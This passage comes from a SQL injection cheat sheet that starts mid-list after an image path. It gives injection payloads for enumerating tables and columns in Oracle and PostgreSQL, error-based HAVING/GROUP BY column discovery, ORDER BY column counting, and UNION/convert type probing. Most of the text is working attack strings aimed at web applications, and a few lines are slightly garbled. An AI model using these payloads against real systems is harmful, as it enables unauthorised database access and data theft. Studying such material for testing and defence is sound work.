 column names:
```sql
SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'
```

Oracle:
```sql
UNION SELECT table_name, null FROM all_tables -- -
```

PostgreSQL:
```sql
UNION SELECT table_name, null FROM information_schema.tables WHERE table _schema = 'public' -- -
```

user-defined tables:
```sql
SELECT * FROM all_tables WHERE OWNER = 'DATABASE_NAME' column names:
SELECT * FROM all_col_comments WHERE TABLE_NAME = 'TABLE'
```

# Error-based ways to discover column information

## 1. Finding column names using HAVING and GROUP BY (S)
```sql
  ' HAVING 1=1 -- (triggers error 1)
  ' GROUP BY table.columnfromerror1 HAVING 1=1 -- (triggers error 2)
  ' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 -- (triggers error 3)
  ' GROUP BY table.columnfromerror1, columnfromerror2, columnfromerror(n) HAVING 1=1 --
```
Once no more errors being shown you are done

## 2. Testing for column number (MS0+)
```sql
  ?id=1 ORDER BY 1 --
  ?id=1 ORDER BY 2 --
  ?id=1 ORDER BY 3 --
  ?id=1 ORDER BY n --
```
If an error shows, you've found the number of columns


## 3. Ways of finding the column type

`  ' UNION SELECT sum(columntofind) from users-- (S)`
If no error is displaying it means the column is numeric

## You can also use cast() or convert() in a similar way, for example:

```sql
SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--
```

